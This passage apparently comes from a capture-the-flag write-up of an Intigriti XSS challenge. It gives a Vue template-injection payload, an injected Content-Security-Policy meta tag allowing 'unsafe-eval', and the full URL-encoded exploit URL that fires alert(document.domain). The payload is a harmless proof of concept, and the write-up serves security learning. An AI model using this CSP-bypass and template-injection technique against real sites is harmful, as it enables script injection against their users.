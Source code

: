 ```html
{{constructor.constructor('alert(document.domain)')()}}
```

We shouldn't forget to put our template payload in a div with `id="app"`, else it wouldn't be loaded by Vue.  
The final payload (`s` parameter) looks like this (but again, URL encoded of course) :  

```html
</title>
<meta http-equiv="Content-Security-Policy" content="script-src * 'unsafe-eval' 'sha256-whKF34SmFOTPK4jfYDy03Ea8zOwJvqmz+oz+CtD7RE4=' 'sha256-Tz/iYFTnNe0de6izIdG+o6Xitl18uZfQWapSbxHE6Ic='">
</head>
<body>
<div id="app">
<h1>{{constructor.constructor('alert(document.domain)')()}}</h1>
</div>
</body>
<head>
<title>'
```

This is the full URL that triggers the alert : https://challenge-1121.intigriti.io/challenge/index.php?s=%3C%2Ftitle%3E%0A%3Cmeta+http-equiv%3D%22Content-Security-Policy%22+content%3D%22script-src+%2A+%27unsafe-eval%27+%27sha256-whKF34SmFOTPK4jfYDy03Ea8zOwJvqmz%2Boz%2BCtD7RE4%3D%27+%27sha256-Tz%2FiYFTnNe0de6izIdG%2Bo6Xitl18uZfQWapSbxHE6Ic%3D%27%22%3E%0A%3C%2Fhead%3E%0A%3Cbody%3E%0A%3Cdiv+id%3D%22app%22%3E%0A%3Ch1%3E%7B%7Bconstructor.constructor%28%27alert%28document.domain%29%27%29%28%29%7D%7D%3C%2Fh1%3E%0A%3C%2Fdiv%3E%0A%3C%2Fbody%3E%0A%3Chead%3E%0A%3Ctitle%3E%27&version=9e9999999999&vueDevtools=vuejs.php
